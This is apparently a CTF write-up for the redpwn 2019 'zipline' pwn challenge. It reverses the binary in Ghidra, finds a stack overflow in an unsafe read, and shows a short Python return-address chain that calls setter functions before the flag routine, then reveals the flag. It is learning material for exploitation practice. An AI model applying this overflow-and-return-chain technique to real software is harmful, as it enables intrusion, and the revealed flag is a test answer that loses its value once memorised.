




In this pwn challenge with the following description:
```
nc chall2.2019.redpwn.net 4005
```
we were given a ELF (look at zipline), let's reverse it with ghidra.



In the main function we have just a print statement and other function calls. So let's see zipline: here we have just an unsafe read from stdin, this will probably be the entry point for a stack overflow. 



In the end there is the i_got_u function.



Here we can see that if we pass the first check we will receive the flag, so let's try to understand how to bypass it with a buffer overflow. We can also notice a list of various functions which are all similar:




Every function sets one of the global variables used in the check, so we can exploit the software creating a chain of return redirection and then call the i_got_u function from the main address.

```python
chain = padding
chain += p32(air)
chain += p32(water)
chain += p32(land)
chain += p32(underground)
chain += p32(limbo)
chain += p32(hell)
chain += p32(nether)
chain += p32(bedrock)
chain += p32(0x08049569) #i_got_u from main
```

In the end the flag is:
```
flag{h0w_l0w_c4n_u_g0_br0}
```